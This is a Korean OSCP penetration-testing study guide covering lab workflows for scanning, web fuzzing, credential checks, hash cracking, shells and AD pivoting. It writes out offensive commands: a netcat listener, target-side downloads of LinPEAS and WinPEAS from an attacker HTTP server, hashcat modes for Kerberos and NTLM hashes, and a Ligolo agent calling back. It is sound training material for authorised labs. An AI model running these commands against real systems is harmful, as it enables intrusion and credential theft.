



# OSCP 실전 종합 가이드 { #practical-guide }

**Updated / 최종 수정:** 2026-11-05

!!! abstract "실습할 때의 기본 흐름"
    **질문 → 필요한 최소 명령 → 증거 → 해석 → 다음 행동.** 고장 났을 때 복구하고 이유를 설명할 수 있는 도구를 중심으로 익히세요. Impacket은 Windows·AD에서 매우 중요하지만 서비스 열거·웹 테스트·권한 분석·라우팅·리포트를 대신하지는 못합니다.

이 페이지부터 읽고 [Impacket 집중 가이드](impacket.md), [재현 가능한 도구 실습](labs/tool-practice.md)으로 이어가세요. 기존 주제별 문서의 심화 예제도 그대로 활용합니다.

!!! warning "시험 규정을 반영한 실습"
    응시 전 [공식 Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)를 다시 확인하세요. 시험 중 AI 도움, 스푸핑·포이즈닝, 자동 익스플로잇, 대량 취약점 스캐너는 금지됩니다. 상용 도구와 Metasploit에도 제한이 있습니다. 여기에 소개됐다고 모든 기능이 일괄 허용되는 것은 아닙니다. [제한 도구](exam-format.md#restricted)를 확인하고 할당받거나 허가된 랩 대상에만 사용하세요.

[채점 변경](exam-format.md#scaled-scoring)은 **시험 시작 시각** 기준입니다. 2026년 12월 1일 08:00 GMT부터는 예상 원점수 70점·80점이 중단 기준이 아닙니다. 추측한 척도 점수 대신 증빙된 목표를 늘리세요.

## 1. 필수 도구와 학습 우선순위 { #toolkit }

| 우선순위·작업 | 먼저 익힐 도구 | 할 수 있어야 하는 일 | 상세 문서 |
|---|---|---|---|
| 기본: 작업·증빙 | Bash, tmux, `script`, `tee`, SHA-256 | 세션 복구, 호스트별 명령·출력 기록 | [리포트](reporting.md) |
| 기본: 서비스 발견 | Nmap, curl, dig, SMB client | 전체 TCP 확인, 서비스별 후속 조사, 이름 매핑 | [정보 수집](recon-enumeration.md) |
| 기본: 웹 | Burp Community Repeater, ffuf **또는** feroxbuster, searchsploit | 요청 반복, 쿠키 처리, 오탐 필터링, PoC 검토 | [웹](web-initial-access.md) |
| 기본: 셸·전송 | nc, Python HTTP 서버, curl, PowerShell, msfvenom | 리스너 방향, 셸 안정화, 파일 무결성 | [셸](shells-file-transfer.md) |
| 기본: 로컬 권한 분석 | Linux·Windows 기본 명령, LinPEAS, WinPEAS, pspy | 색깔 표시가 아니라 잘못된 권한을 설명 | [Linux](privesc-linux.md) / [Windows](privesc-windows.md) |
| AD 기본 | NetExec, **Impacket**, Evil-WinRM | 인증·인가·명령 실행 구분 | [Impacket](impacket.md) |
| AD 그래프·인증 자료 | BloodHound CE 호환 수집기, hashcat 또는 John | 그래프 관계 검증, 해시 형식 확인 | [AD](active-directory.md) / [패스워드](password-attacks.md) |
| 내부망 접근 | Ligolo-ng, SSH 포워딩. 대안으로 Chisel | 대상 포트·콜백 포트, 라우팅·SOCKS 구분 | [피벗팅](pivoting.md) |

디렉터리 퍼저 세 개나 Impacket의 모든 예제를 암기할 필요는 없습니다. 주 도구와 대안을 익히고 첫 도구가 **왜** 실패했는지 설명할 수 있어야 합니다.

## 2. 반복 가능한 작업 환경 { #workspace }

`training.test`는 실습용 이름입니다. 주소·VPN 인터페이스는 실제 할당에 맞게 바꾸세요. 예전 `tun0` 주소를 페이로드에 고정해 두지 마세요.

```bash
mkdir -p ~/oscp-lab/{notes,nmap,web,loot,screens,tools}
cd ~/oscp-lab
export LAB_TARGET=10.10.20.21
export LAB_DOMAIN=training.test
export LAB_DC=10.10.20.10
export LAB_USER=learner
ip -4 addr
ip route get "$LAB_TARGET"
tmux new -s practice
# In a tmux pane, record this host's session; exit ends recording:
script -q -f notes/ms01-session.log
```

`ip route get`은 선택된 경로·인터페이스를 보여 주며 실제 통신 성공을 보장하지 않습니다. tmux에서 `Ctrl-b c`는 창 생성, `Ctrl-b %`는 분할, `Ctrl-b d`는 분리, `tmux attach -t practice`는 재접속입니다. 호스트별 창을 두세요. `script`는 터미널 제어 문자도 기록하므로 리포트 작성 때 정리합니다. 인증 자료가 담긴 노트는 비공개로 두고 실제 비밀번호를 공개 화면에 넣지 마세요.

## 3. Nmap — 범위 확인 후 서비스별 질문 { #nmap }

**질문:** 높은 포트를 포함해 어떤 서비스에 닿을 수 있는가? 라우팅·피벗에서 쓰기 쉬운 TCP connect 스캔부터 시작합니다. SYN 스캔은 raw packet 권한이 있을 때 사용하세요. 다음 호스트로 옮기기 전에 결과를 저장합니다.

```bash
nmap -sT -Pn -n -p- -T3 -oA nmap/ms01-all "$LAB_TARGET"
# Replace these example ports with the ports actually found:
nmap -sT -Pn -n -sV -p 80,445,1433 -oA nmap/ms01-services "$LAB_TARGET"
# Select relevant scripts deliberately; scripts generate service requests:
nmap -sT -Pn -p 445 --script smb-os-discovery,smb2-security-mode   -oN nmap/ms01-smb.txt "$LAB_TARGET"
# Direct lab/VPN path with raw-packet permissions, not through proxychains:
# sudo nmap -sU -Pn --top-ports 20 -oA nmap/ms01-udp "$LAB_TARGET"
```

| 옵션·결과 | 해석 |
|---|---|
| `-p-` | TCP 65,535개 전체. UDP가 아님 |
| `-Pn` / `-n` | 호스트 탐색 / 역방향 DNS 생략. 방화벽 우회가 아님 |
| `-sV` / `-oA` | 서비스 식별 / 일반·XML·grepable 결과 저장 |
| `open` | 서비스 응답. 프로토콜별 조사로 진행 |
| `filtered` | 필터링 또는 유용한 응답 없음. 미사용 포트라는 증거가 아님 |
| UDP `open\|filtered` | 애매한 상태. 프로토콜에 맞는 추가 요청 필요 |

열린 포트가 없으면 공격적인 스캔부터 하지 말고 대상 IP·경로·VPN·시간 초과·대상 상태를 확인하세요. 버전 배너는 단서이지 CVE 적용 증거가 아닙니다. 다음은 HTTP면 curl/Burp, SMB면 공유 권한, MSSQL이면 인증입니다. [Nmap 심화](recon-enumeration.md)를 참고하세요.

{ loading=lazy }

## 4. curl·ffuf — 퍼징 전에 기준 응답 확인 { #web }

**질문:** 의도한 사이트인가? 없는 경로는 정말 404인가? 리다이렉트·쿠키·호스트 이름을 확인하세요. 랩 VM의 `/etc/hosts`에 할당된 이름을 넣거나 아래 `--resolve`로 명령 하나에만 적용할 수 있습니다.

```bash
curl -i --max-time 10 "http://$LAB_TARGET/" | tee web/root.txt
curl -i --max-time 10 "http://$LAB_TARGET/not-a-real-path-7391" | tee web/missing.txt
# Hostname-specific HTTPS without changing global DNS:
# curl --resolve "portal.training.test:443:$LAB_TARGET" #   -i https://portal.training.test/
ffuf -u "http://$LAB_TARGET/FUZZ"   -w /usr/share/seclists/Discovery/Web-Content/common.txt   -mc all -ac -t 10 -rate 30 -of json -o web/paths.json
# Manual confirmation for an actual discovered path:
curl -i "http://$LAB_TARGET/admin/"
```

`FUZZ`는 치환 위치, `-ac`는 와일드카드 응답 자동 보정, `-mc all`은 리다이렉트·접근 거절 상태도 확인하는 설정입니다. 자동 보정이 유용한 결과를 숨길 수 있으니 존재·부재가 확인된 경로를 수동 비교하세요. 전부 같은 200 페이지라면 길이·단어·줄 수를 비교해 `-fs`, `-fw`, `-fl`로 신중히 필터링합니다. 403은 단서이며 접근 성공이 아닙니다. 301은 끝의 `/` 또는 정확한 호스트 이름을 요구할 수 있습니다. 약한 VPN에 큰 속도를 강요하지 마세요. 가상 호스트 탐색은 할당 IP에 `-H 'Host: FUZZ.training.test'`를 사용하고 결과를 수동 검증합니다.

{ loading=lazy }

## 5. Burp Community — 재현 가능한 수동 요청 { #burp }

**언제:** 요청의 매개변수 하나를 바꾸고 반응을 비교할 때. Community Edition의 수동 도구를 사용하며 이 흐름에서 Pro 스캐너 결과에 의존하지 않습니다.

```bash
# Reproduce an ordinary request independently of the GUI:
curl -i "http://$LAB_TARGET/search?q=alpha"
curl -i --get --data-urlencode 'q=alpha beta' "http://$LAB_TARGET/search"
# Add a current lab session cookie only if the page requires authentication:
# curl -i -H 'Cookie: session=<current-lab-cookie>' #   "http://$LAB_TARGET/search?q=alpha"
```

1. Burp Community에서 임시 프로젝트를 열고 **Proxy → Open browser**를 누릅니다. 내장 브라우저는 별도 프록시·인증서 설정 부담이 적습니다.
2. 할당된 랩 페이지를 엽니다. **Proxy → HTTP history**에서 요청을 골라 **Send to Repeater**로 보냅니다.
3. **Repeater**에서 변경 없는 기준 요청부터 보냅니다. scheme·호스트·포트·메서드·쿠키·본문 인코딩을 확인합니다.
4. 값을 **하나만** 바꿔 전송하고 상태·길이·의미 있는 본문을 비교합니다. 500 자체는 SQL injection 증거가 아닙니다. 통제된 참·거짓 차이 등 재현 가능한 효과가 있어야 합니다.
5. 로그인 화면으로 이동하면 세션·CSRF 토큰부터 갱신하세요. HTTPS에서는 해당 브라우저가 랩 CA를 신뢰하게 설정하고 전역 TLS 검증을 끄지 마세요.
6. 기준·변경 raw 요청, 응답, 해석을 저장하고 [수동 SQLi·업로드·LFI](web-initial-access.md)로 이어갑니다.

아래는 실제 로컬 HTTP 요청·응답이며 **Burp GUI 캡처가 아닙니다**. 메서드·경로·상태·헤더·본문을 읽는 예제입니다. GUI 단계는 본인의 Burp 랩에서 재현하세요.

{ loading=lazy }

## 6. NetExec·Evil-WinRM — 한 번 검증 후 접속 { #credentials }

**질문:** 이 프로토콜에서 인증이 되는가? 원하는 작업까지 허용되는가? 서브넷 전체 비밀번호 반복이 아니라 한 호스트·한 개의 확인된 인증 자료부터 시작합니다. 스프레이 연습 전에는 잠금 정책을 읽으세요.

```bash
nxc smb "$LAB_TARGET" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!'
nxc smb "$LAB_TARGET" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!' --shares
nxc smb "$LAB_DC" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!' --pass-pol
# Domain user versus a known local account are different validations:
# nxc smb "$LAB_TARGET" --local-auth -u labadmin -p 'LocalLabOnly-123!'
evil-winrm -i "$LAB_TARGET" -u "$LAB_USER" -p 'LabOnly-123!'
# In Evil-WinRM PowerShell:
# whoami /all
# hostname
# ipconfig
# upload /home/kali/oscp-lab/tools/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe
```

위 비밀번호는 가상 랩 예시입니다. `nxc`의 관리자 접근 표시는 프로토콜·모듈·버전에 영향을 받으므로 실제 권한으로 확인합니다. WinRM에는 서비스·방화벽·계정 권한(보통 Remote Management Users 또는 관리자)이 필요합니다. SMB 성공이 WinRM 성공을 뜻하지 않습니다. 인증 실패 시 도메인·로컬 범위를 확인하고 반복 추측 대신 진단하세요. [AD 도구](active-directory.md#netexec)를 참고하세요.

## 7. Hashcat·John — 입력 형식부터 확인 { #cracking }

확보한 랩 자료에 대해 오프라인 크래킹을 합니다. 모드는 수집 도구 이름이 아니라 해시 접두사·암호화 유형으로 고릅니다. `secretsdump` 로그 전체를 아무 모드에나 넣지 마세요.

```bash
# Examples: select the one matching YOUR input, not all of them.
hashcat -m 1000 loot/nt-only.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 loot/tgs-rc4.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 loot/asrep-rc4.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 loot/netntlmv2.txt /usr/share/wordlists/rockyou.txt
# Review an already-run job:
hashcat -m 1000 loot/nt-only.txt --show
# John Jumbo alternative for a file containing NT hashes:
# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt loot/nt-only.txt
# john --show --format=NT loot/nt-only.txt
```

| 입력 | 대표 모드 |
|---|---|
| NT 해시 32자리 16진수 | 1000 |
| `$krb5tgs$23$` / `$krb5tgs$18$` | 13100 / 19700 |
| `$krb5asrep$23$` | 18200 |
| NetNTLMv2 챌린지·응답 | 5600 |

표에 나온 형식의 예시이므로 설치 버전의 `hashcat --help`·`--example-hashes`로 확인하세요. `Exhausted`는 그 후보 목록을 다 돌았다는 뜻이지 비밀번호를 못 푼다는 증명이 아닙니다. `Token length exception`은 보통 형식·모드 불일치 또는 손상된 입력입니다. `--force`를 만능 해결책으로 쓰지 마세요. 시간을 제한하고 원본 해시를 보관하며 `--show`로 결과를 확인합니다. 복구한 비밀번호는 해당 계정에 실제로 유효한지 따로 검증해야 합니다.

## 8. 리스너·파일 전송·셸 안정화 { #shell }

콜백은 **대상 → 공격자 리스너**, 파일 다운로드는 **대상 → 공격자 웹·SMB 서버**입니다. 모두 대상이 광고된 주소로 접근할 수 있어야 합니다. VPN에서는 공격자의 기본 Ethernet 주소가 맞지 않을 수 있습니다.

```bash
# Pane 1: reserve a listener for your authorised lab shell payload.
nc -lvnp 4444
# Pane 2: serve only staged files, bound to the reachable lab interface.
# Replace the sample address with the actual reachable address first:
python3 -m http.server 8000 --bind 10.10.14.5 --directory ~/oscp-lab/tools
# Linux target:
# curl -f http://10.10.14.5:8000/linpeas.sh -o /tmp/linpeas.sh
# sha256sum /tmp/linpeas.sh
# Windows target PowerShell:
# Invoke-WebRequest http://10.10.14.5:8000/winPEASx64.exe -OutFile C:\Windows\Temp\winPEASx64.exe
# Get-FileHash C:\Windows\Temp\winPEASx64.exe -Algorithm SHA256
```

기본 Linux 셸에서는 대상에서 `python3 -c 'import pty; pty.spawn("/bin/bash")'`, Ctrl-Z로 중단, **로컬** 터미널에서 `stty raw -echo; fg`, 대상에서 `TERM=xterm`을 설정합니다. 터미널이 깨지면 다른 터미널을 열고 `stty sane`으로 복구하세요. Windows PowerShell에 로컬 터미널 설정을 넣지 마세요. 연결만 되고 프롬프트가 없으면 페이로드·아키텍처 불일치나 명령 실행 차단도 확인합니다. [페이로드·셸 상세](shells-file-transfer.md)를 참고하세요.

## 9. 권한 상승 — 발견 사항 검증 { #privesc }

기본 명령으로 시작하고 보조 도구로 누락을 채웁니다. PEAS의 빨간 줄은 조사 단서입니다. 실제 악용을 가능하게 하는 권한·소유자·실행 파일 경로·실행 조건을 정확히 남기세요.

```bash
# Linux target:
id; hostname; uname -a
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
# After verifying transfer integrity:
# bash /tmp/linpeas.sh | tee /tmp/linpeas-results.txt
# ./pspy64   # observe a short lab interval, then Ctrl-C
# Windows target (PowerShell):
# whoami /all
# Get-CimInstance Win32_Service | Select-Object Name,StartName,PathName,State
# icacls C:\Path\To\Candidate.exe
# .\winPEASx64.exe
```

**Linux:** `sudo -l`은 허용 명령·인수, SUID는 소유자·실행 경로, capabilities는 해당 바이너리 권한, cron/pspy는 실제 반복 명령과 쓰기 가능한 의존 파일을 확인합니다. 무작위 셸 탈출 대신 조건이 맞는 [GTFOBins](https://gtfobins.github.io/) 항목을 봅니다.

**Windows:** 가장 기법 전에 토큰 특권뿐 아니라 서비스·OS 문맥도 확인합니다. 따옴표 없는 서비스 경로는 쓰기 가능한 후보 경로와 실제 서비스 재시작 조건이 필요합니다. 파일에 쓸 수 있어도 더 높은 권한 프로세스가 실제로 읽어야 의미가 있습니다. WinPEAS에 이름이 나왔다고 바로 익스플로잇을 실행하지 마세요. 커널 익스플로잇은 재현 가능한 설정 경로를 먼저 조사한 뒤 고려합니다. [Linux](privesc-linux.md) / [Windows](privesc-windows.md)의 사례로 이어가세요.

## 10. AD — 인증 자료를 검증된 경로로 연결 { #ad }

상세 명령 선택은 [Impacket 4~12절](impacket.md#tool-map)을 보세요. **Community Edition**에 맞는 BloodHound 수집기를 사용하고 그래프 관계를 검증이 필요한 가설로 취급합니다.

```bash
# Kali collector; enter the lab password when prompted:
bloodhound-ce-python -u "$LAB_USER" -d "$LAB_DOMAIN" -ns "$LAB_DC" -c All --zip
# Or on a domain lab host, with an installed SharpHound release compatible with your CE:
# .\SharpHound.exe -c All --ZipFileName collection.zip
```

CE 화면에서 ZIP을 가져옵니다. 시작 사용자를 찾아 그룹과 다음 객체를 확인한 뒤 각 관계의 도움말·전제 조건을 검증합니다. `GenericAll`, `WriteDACL`, `AdminTo`, 세션 관계와 복제 권한은 서로 다릅니다. 오래된 정보이거나 경로·방화벽 때문에 실행 불가할 수 있습니다. `-c All`은 넓은 수집을 요청하므로 실패하면 DNS·인증·LDAP/RPC 통신을 진단하고 닿는 범위로 줄이세요. 그래프가 비었다고 단정하지 마세요. 새 인증 자료마다 주체·도메인/로컬 범위·출처·검증 호스트/프로토콜·실제 권한을 표로 남깁니다. 전체 흐름은 [AD 문서](active-directory.md)에 있습니다.

## 11. 피벗 — 서브넷 스캔 전에 서비스 하나 확인 { #pivot }

L3 라우팅과 응용 계층 SOCKS 프록시를 구분하세요. Ligolo-ng는 라우팅 인터페이스를 제공하지만 에이전트가 지원 트래픽을 변환하므로 raw SYN·ICMP 가정이 그대로 맞지 않을 수 있습니다. 터널 확인에는 `-sT -Pn -n`을 사용하세요. Ligolo-ng UI 명령은 버전에 따라 달라지므로 아래는 경로 판단을 드러내는 수동 라우팅 예제입니다.

```bash
# Kali: one-time TUN setup (requires network administration capability):
sudo ip tuntap add user "$(id -un)" mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
# On the authorised pivot host, after verifying the displayed proxy certificate fingerprint:
# .\agent.exe -connect 10.10.14.5:11601 -accept-fingerprint <displayed-fingerprint>
# In the proxy console: certificate_fingerprint; session; select the agent
# Then: tunnel_start --tun ligolo
# Kali, using a lab subnet that does NOT overlap the VPN route:
sudo ip route add 10.10.30.0/24 dev ligolo
ip route get 10.10.30.10
nmap -sT -Pn -n -p 445,5985 10.10.30.10
# After the exercise, remove only the route/interface you created:
# sudo ip route del 10.10.30.0/24 dev ligolo
# sudo ip link del ligolo
```

TCP 하나도 실패하면 에이전트·선택 세션·라우팅·인터페이스·대상 방화벽·반환 경로를 점검하세요. 그 전에 전체 범위를 스캔하지 마세요. 내부 호스트의 리버스 셸은 별도 에이전트 리스너·포워딩이 필요할 수 있습니다. SMB로 **들어가는** 경로가 된다고 Kali로 **돌아오는** 콜백까지 되는 것은 아닙니다. SSH 접근이 있고 SQL 한 포트만 필요하면 `ssh -N -L 127.0.0.1:11433:10.10.30.10:1433 user@pivot` 후 `mssqlclient -port 11433 ...@127.0.0.1`이 더 단순할 수 있습니다. Kerberos에는 여전히 올바른 서비스 주체가 필요합니다. [피벗팅](pivoting.md)을 참고하세요.

## 12. 증빙과 완료 기준 { #evidence }

대상별로 시작 주체·서비스/버전·정확한 요청/명령·응답 증거·권한 전환·대상 IP·원래 proof 경로·재현 순서를 남깁니다. proof는 복사 파일이나 웹 셸이 아니라 **대상의 인터랙티브 셸**에서 `cat`·`type`으로 읽어 촬영합니다. [정확한 proof 규칙](exam-format.md#flag-rules)과 [리포트 체크리스트](reporting.md#submission-checklist)를 따르세요.

다음이 되면 한 번의 실습을 완료한 것입니다.

- 관찰한 서비스와 권한에 왜 그 도구를 골랐는지 설명한다.
- 해설 없이 정리한 노트만으로 처음부터 재현한다.
- 틀린 호스트 이름·포트·인증 범위·라우팅 중 오류 하나를 진단한다.
- 전송 파일의 해시를 비교하고 proof와 대상 주체·IP를 보여 준다.
- 다른 학습자가 따라 할 수 있는 짧은 리포트를 작성한다.

## 13. 이미지가 검증하는 범위 { #screenshots }

이미지는 **실제 수집한 터미널 출력을 충실하게 렌더링**한 것으로, 스톡 이미지나 꾸민 AD 성공 화면이 아닙니다. HTTP 탐색·퍼징과 인증된 SMB 전송은 루프백 서비스에서 직접 실행했습니다. Impacket 도움말 화면은 실행 파일·버전·옵션만 검증합니다. Windows·도메인·BloodHound·Burp GUI·Ligolo-ng 절차는 본인의 랩이 필요하며 여기서 전체 실행 검증했다고 주장하지 않습니다. 원본 로그·출처 정보·로컬 재현기는 저장소 `scripts/oscp-captures/`에 있습니다. 이미지는 클릭해 확대할 수 있고 옆에 복사 가능한 명령도 있습니다.

## 참고 자료 { #references }

- [Nmap 레퍼런스](https://nmap.org/book/man.html)
- [ffuf 사용법](https://github.com/ffuf/ffuf)
- [PortSwigger 수동 테스트 흐름](https://portswigger.net/burp/documentation/desktop/testing-workflow)
- [NetExec 문서](https://www.netexec.wiki/)
- [Evil-WinRM 사용법](https://github.com/Hackplayers/evil-winrm)
- [BloodHound CE Python 수집기](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce)
- [Ligolo-ng 빠른 시작](https://docs.ligolo.ng/Quickstart/)
- [Hashcat 해시 예제](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [John the Ripper 문서](https://www.openwall.com/john/doc/)
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng) · [pspy](https://github.com/DominicBreuker/pspy)
- [시험 구조·현재 채점](exam-format.md) · [Impacket 집중 가이드](impacket.md) · [도구 실습](labs/tool-practice.md)
